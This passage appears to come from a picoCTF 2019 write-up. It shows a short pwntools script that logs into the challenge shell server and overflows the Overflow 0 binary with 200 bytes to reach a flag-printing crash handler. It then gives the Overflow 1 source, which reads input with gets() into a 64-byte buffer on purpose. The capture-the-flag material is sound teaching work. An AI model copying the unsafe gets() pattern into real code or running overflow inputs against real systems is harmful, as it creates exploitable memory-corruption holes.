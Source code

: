 ```c
```

Here we see that is sending the argv to the function `vuln`, we can overflow the `buf` variable, and cause a segmentation fault, and then `sigsegv_handler` will print the flag:

```python
from pwn import *
from getpass import getpass

user = getpass("Username:")
passwd = getpass("Password:")
host = "2019shell1.picoctf.com"

s = ssh(user=user,password=passwd,host=host)
p = s.run("sh")

p.sendline("cd /problems/overflow-0_3_dc6e55b8358f1c82f03ddd018a5549e0")
p.sendline("./vuln" + " " + "a"*200)
p.interactive()
```

### Overflow 1

Source code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);

  printf("Woah, were jumping to 0x%x !\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Give me a string and lets see what happens: ");
  vuln();
  return 0;
}
```